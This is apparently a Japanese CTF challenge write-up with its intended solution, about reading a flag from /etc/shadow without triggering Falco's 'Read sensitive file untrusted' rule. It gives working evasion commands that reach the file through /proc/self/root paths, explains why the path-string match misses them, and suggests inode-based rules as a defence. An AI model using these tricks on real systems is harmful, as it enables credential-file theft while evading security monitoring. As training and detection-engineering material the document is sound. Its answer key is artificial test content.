

# 02 — evade-shadow-read

Falco の検知ルール `Read sensitive file untrusted` を**回避**しながら、
`/etc/shadow` の末尾に仕込まれた flag を抜き取る応用課題。

## 出題文

「`/etc/shadow` の末尾にこのユーザ専用の flag が書かれている。
取得して scoreboard に提出せよ。
ただし、提出までの 10 秒間に Falco ルール
`Read sensitive file untrusted` を発火させてはならない。
発火したら `submit` は失敗する。」

## クリア条件

scoreboard `/api/challenges/02-evade-shadow-read/submit` に
正しい flag を POST し、かつ過去 `windowSeconds=10` 秒間に
`Read sensitive file untrusted` ルールが発火していないこと。

## 想定解

`Read sensitive file untrusted` ルールの `sensitive_files` macro は

```
fd.name startswith /etc and (
  fd.name in (sensitive_file_names)
  or fd.directory in (/etc/sudoers.d, /etc/pam.d)
)
```

を見ている。**`fd.name` が `/etc` で始まらないパス**経由で同じファイルに
到達できれば回避可能。

```bash
# NG (rule fires, submit fails for 10s):
cat /etc/shadow

# OK (rule doesn't fire because fd.name = /proc/self/root/etc/shadow):
cat /proc/self/root/etc/shadow

# Other valid evasions:
cat /proc/$$/root/etc/shadow
od -c /proc/self/root/etc/shadow | tail -5
```

## 提出方法

challenge コンテナ内で、`fixtures/submit.sh` を source して `submit` 関数を使う:

```bash
source /opt/ctf/fixtures/submit.sh
submit 'FALCO{...}'
```

または直接 curl:

```bash
curl -s -X POST "${FALCO_CTF_SCOREBOARD}/api/challenges/${FALCO_CTF_CHALLENGE}/submit" \
  -H 'Content-Type: application/json' \
  -d "{\"user\":\"${FALCO_CTF_USER}\",\"flag\":\"FALCO{...}\"}"
```

## Submit Flow (organizer reference)



## 仕組みの解説 (講評用)

- Falco の rule は **path 文字列マッチ**で判定するため、同じ inode を別 path
  で開けば検知をすり抜ける
- `/proc/<pid>/root` はそのプロセスの mount namespace 内の root を指す symlink。
  自分自身なら `/proc/self/root/etc/shadow == /etc/shadow` (内容同じ)
- 本番運用で防ぐには `sensitive_files` macro を拡張するか、`fd.ino` ベースの
  ルールに切り替える(Falco 自体には inode フィルタもある)
- **CTF の出題者向けメモ**: `windowSeconds` は短すぎると false fail、長すぎると
  「カンニング後にしばらく待てば成功」になる。10s が妥協点

## ヒント (難易度別)

1. (易) `man proc` を読み `/proc/self` 関連を探す
2. (中) `cat /etc/shadow` がなぜ検知されるか Falco の `sensitive_files` macro を読む
3. (難) `fd.name` 以外で同じ inode に到達する方法は何種類ある?(symlink, hardlink, /proc, mount bind…)
